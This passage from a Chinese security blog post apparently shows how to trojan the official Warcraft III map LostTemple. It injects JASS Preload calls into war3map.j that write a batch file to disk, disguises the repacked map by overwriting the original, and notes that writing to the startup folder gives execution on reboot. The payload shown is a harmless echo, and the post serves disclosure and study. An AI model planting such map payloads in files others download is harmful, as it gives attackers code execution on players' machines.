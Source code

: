 
测试成功


### 2、手动修改官方地图LostTemple


(1) 获得源文件

使用HkeW3mModifier打开官方地图`(4)LostTemple.w3m`，导出war3map.j

(2) 添加payload

根据上文对war3map.j中文件结构的分析，在`function Trig_Melee_Initialization_Actions`内添加如下代码：

```
call PreloadGenClear()
call PreloadGenStart()
call Preload("\n@echo Test\n")
call PreloadGenEnd("c:\\test\\test.bat")
```

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-11-22/3-2.png)


(3) 保存
保存war3map.j后，在HkeW3mModifier选择替换(添加)文件，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-11-22/3-3.png)



选择重压缩，保存地图文件，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-11-22/3-4.png)



(4) 测试

将地图置于Maps文件夹下，进入游戏，地图被识别，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-11-22/4-1.png)

**注：**
为便于测试，已将地图名称修改为Test，覆盖原地图，迷惑性更大


开始游戏，c:\test\下产生文件test.bat，内容如下：
```
function PreloadFiles takes nothing returns nothing

  call Preload( "
@echo Test
" )
  call PreloadEnd( 0.0 )

endfunction
```
如果将该文件输出到开机自启动目录，那么在重启后，文件将会执行
